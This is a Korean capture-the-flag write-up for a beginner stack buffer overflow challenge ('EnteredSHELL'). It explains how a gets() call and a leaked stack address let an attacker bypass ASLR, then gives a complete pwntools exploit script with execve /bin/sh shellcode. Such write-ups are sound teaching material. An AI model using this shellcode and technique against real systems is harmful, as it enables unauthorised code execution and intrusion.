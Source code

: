 EnteredSHELL, 열어보시지요
=================
EnteredSHELL
---------------------------
이 문제는 포너블 분야의 문제로 수준은 LOB 1단계 급 수준이다.

파일은 32bit로 컴파일 되어있으며, 보호기법은 걸려있지 않다.

main함수를 보자.

![텍스트](https://i.imgur.com/utNEvRC.png)

vuln 함수를 호출해준다. 바로 vuln 함수를 보자.

![텍스트](https://i.imgur.com/MDx4rQm.png)

gets로 s변수에 입력을 받으므로 Buffer overflow가 일어난다는 사실이 자명하다.

심지어 이 파일은 NX도 걸려있지 않고, canary도 걸려있지 않으므로, 스택으로 eip을 돌려서shellcode를 실행시켜주면 될 것이다.

하지만 실 서버에는 ASLR이 걸려있기 때문에 stack으로 eip를 돌리는 게 힘들 것이라고 생각을 할 수 있다. 그렇지만, printf로 stack address를 스스로 leak 해준다.

그러므로 시나리오는 stack에 gets로 값을 받음을 이용, shellcode를 stack에 넣어주고, eip를 leak된 값을 이용해서 stack address로 옮겨주면 된다.	끝

~~~
from pwn import *
p = process('./EnteredSHELL')
#p = remote('52.78.156.241', 7777)

p.recvuntil(' : ')
leak = int(p.recv()[:8],16)
shell = '\x31\xc0\x50\xbe\x2e\x2e\x72\x67\x81\xc6\x01\x01\x01\x01\x56\xbf\x2e\x62\x69\x6e\x47\x57\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80'
pay = shell + 'a'*234 + p32(leak)
log.info('stack : ' + hex(leak))
p.sendline(pay)
p.recvuntil(p32(leak) + '\n')
p.interactive()
~~~

![텍스트](https://imgur.com/zP1JqEM.png)

서버가 닫혀있어서 플래그는 모르겠다.

![텍스트](https://imgur.com/8xRi18e.png)
